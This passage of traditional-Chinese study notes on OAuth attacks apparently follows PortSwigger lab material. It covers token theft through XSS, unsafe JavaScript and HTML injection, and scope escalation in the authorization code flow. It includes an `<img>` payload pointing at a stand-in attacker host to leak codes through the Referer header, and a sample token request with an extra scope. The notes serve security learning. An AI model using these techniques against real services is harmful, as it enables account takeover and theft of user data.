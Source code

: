 除 open redirects 外，你還應查找允許你提取 code/token 並將其發送到外部 domain 的任何其他漏洞。一些很好的例子包括:
- **處理 query parameters 和 URL fragments 的不安全 JavaScript**
  - 在某些情況下，你可能需要確定一個較長的小工具鏈，使你能夠通過一系列 script 傳遞 token，最終將其洩漏到外部 domain

- **XSS 漏洞**
  - 雖然 XSS 本身有巨大影響，但在 user 關閉頁面或離開前，攻擊者通常有小段時間可以訪問 user 的 session
  - 由於 session  cookie 通常用 `HTTPOnly`，攻擊者無法使用 XSS 直接訪問它們
  - 但是，通過竊取 OAuth code/token，攻擊者可以在 user 自己的 borwser 中訪問 user 的帳號
  - 這樣，他們就有更多的時間來探索 user 的資料並執行有害操作，從而大大增加了 XSS 的嚴重性
- **HTML injection 漏洞**
  - 在無法 inject JavaScript 的情況下(如，由於 CSP 限制)，你仍然可以使用簡單的 HTML inject 來竊取 code
  - 如果能將 `redirect_uri` 指向一個可以 inject 自己的 HTML 內容的頁面，就有可能通過 `Referer` header 洩露 code
  - 例如，`<img src="evil-user.net">`。在嘗試取得圖片時，某些瀏覽器(如 Firefox)會在請求的 `Referer` header 中發送完整的 URL，包括 queryString

練習題: Stealing OAuth access tokens via a proxy page
- https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-a-proxy-page


**有缺陷的 scope 驗證:**  
在任何 OAuth 流程中
- user 必須根據授權請求中定義的 scrope 請求的訪問
- 由此產生的 token 只允許 client application 訪問 user 批准的 scope
- 但在某些情況下，由於 OAuth service 的驗證缺陷，攻擊者有可能升級具有額外權限的 `access token` (被盜或使用惡意 client application 取得)
  - 升級過程取決於授權類型(grant type)



**Scope 升級，authorization code flow：**  
使用 authorization code grant type 時， user 的資料是通過安全的 server to server 溝通的
- 第三方攻擊者通常無法直接操縱
- 不過，通過在 OAuth service 中註冊自己的 client application，仍有可能達到相同的效果。



例如
- 假設攻擊者的惡意 client application 最初使用 `openid email` scope 請求訪問 user 的 email
- user 批准請求後，惡意 client application 會收到一個 `authorization code`
- 由於攻擊者控制著他們的 client application，因此他們可以在 code/token 交換請求中加另個附加 `profile` scope 的 `scope` 參數

```
POST /token
Host: oauth-authorization-server.com
…
client_id=12345&client_secret=SECRET&redirect_uri=https://client-app.com/callback&grant_type=authorization_code&code=a1b2c3d4e5f6g7h8&scope=openid%20 email%20profile
```



如果 server 沒有根據初始授權請求的 scope 進行驗證
- 有時就會使用新 scope 產生 `access token`，並發送給攻擊者的 client application
- 然後，攻擊者就可以使用自己的 app 進行必要的 API call，訪問 user 的配置文件資料

```json
{
  "access_token": "z0y9x8w7v6u5",
  "token_type": "Bearer",
  "expires_in": 3600,
  "scope": "openid email profile",
  …
}
```
